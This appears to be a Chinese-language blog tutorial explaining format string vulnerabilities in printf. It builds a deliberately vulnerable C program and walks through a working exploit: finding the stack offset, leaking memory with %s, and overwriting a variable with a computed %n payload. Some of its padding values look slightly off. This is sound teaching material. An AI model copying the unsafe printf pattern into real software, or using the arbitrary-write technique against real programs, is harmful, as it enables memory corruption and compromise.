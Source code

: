 ```yaml
---
layout: post
title: "格式化字符串漏洞解析和利用"
---
```


#### 0x00 前言 ####

环境： kali 2016.2 i386
工具： peda

#### 0x01 漏洞描述 ####

Format String Vulnerability(格式化字符串漏洞)，漏洞的主要原理是由于使用用户的输入作为格式化字符串，通常针对的是print家族的函数(printf,sprintf,fprintf).常见的漏洞格式为

	printf(User_input);

由于printf并没有限定参数的个数，导致在user_input后面的数据都被解析为printf的参数，通过构造特定的格式化字符串，达到数据泄漏和数据写入。

如果`User_input="%x.%x`"被传入到printf中时，就会泄露栈上8个字节的数据信息。

#### 0x02 漏洞示例 ####

漏洞程序代码：

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	int magic = 0x33445566;
	int key = 0x6c6d6e6f;

	int main(int argc, char *argv[]) {
    	char msg[256];
    	strcpy(msg, argv[1]);
   		printf(msg);
    	printf("\n");
    	if (magic == 0x6c6d6e6f) {
        	puts("nice job");
    	}   
    	return 0;
	}

编译：

	gcc -no-pie -o vul vul.c


首先计算计算用户的输入距离print函数的偏移(方便后续的读和写)

	addr1=$'\xaa\xbb\xcc\xdd'
	addr2=$'\x11\x22\x33\x44'
	for i in `seq 1 10`; do ./vul $addr1$addr2' '$i$' %'$i$'$p\n'; done

其中addr1为bash的变量，$表示转义

![formatsv]({{ '/images/201804/format_string_vul_2_1.png' | prepend: site.baseurl }})

通过输出我们可以得出用户的输入在偏移4和5的地方。

接下来我们尝试读取magic地址存放的字符，通过readelf获取变量的地址

![formatsv]({{ '/images/201804/format_string_vul_2_2.png' | prepend: site.baseurl }})

magic的地址为`0x080497a4`,通过设置addr环境变量为magic的地址来读取

	addr=$'\xa4\x97\x04\x08'
	./vul $addr'|%4$s'

![formatsv]({{ '/images/201804/format_string_vul_2_3.png' | prepend: site.baseurl }})

fUD3为magic的值，而onml是key的值，由于他们都存在于.data段中，并且是相邻的，因此通过%s都一起读取出来了

我们最后的目的是修改magic的值为0x6c6d6e6f通过检测

这里我们无法直接传入4个字节转入的10进制的数字，因为太大导致屏幕会一直在输入效率很低，通过以下的计算方式进行连续4字节的数据写入

如何写入连续的4个字节的数据

<pre>// We want to write the value n=0xdeadf00d to "address"
// Lower 16bits of n = 0xf00d = 61453
// Higher 16bits of n = 0xdead = 57005
int amount_lower = 61453;
int amount_higher = (57005 - 61453 + 0x10000) & 0xffff;
// amount_higher = 61088
// resulting in the following format string:
// (note the parameter indices for both addresses)
const char *fmt = "%61453c%5$n%61088c$6n";</pre>

我们需要写入0x6c6d6e6f

	low = 0x6e6f = 28271
	high = 0x6c6d = 27757

	r_high = (27757 - 28271 + 0x10000) & 0xffff = 0xfdfe = 65022

因此我们需要传入的参数为
	
	python -c 'print "\xa4\x97\x04\x08\xa6\x97\x04\x08|%28262c%4$n%65022c%5$n"'

通过gdb调试以下为在调用printf前的栈布局

![formatsv]({{ '/images/201804/format_string_vul_2_4.png' | prepend: site.baseurl }})

以下是调用后

![formatsv]({{ '/images/201804/format_string_vul_2_5.png' | prepend: site.baseurl }})

发现目标地址`0x080497a4`地址的内容成功被改写，并顺利绕过

![formatsv]({{ '/images/201804/format_string_vul_2_6.png' | prepend: site.baseurl }})

#### 0x03 总结 ####

通过程序演示，我们可以通过格式化字符串漏洞进行任意地址的读(目前知道通过%s来以字符串的形式泄漏)以及任意地址写，该漏洞在ctf经常用于信息泄漏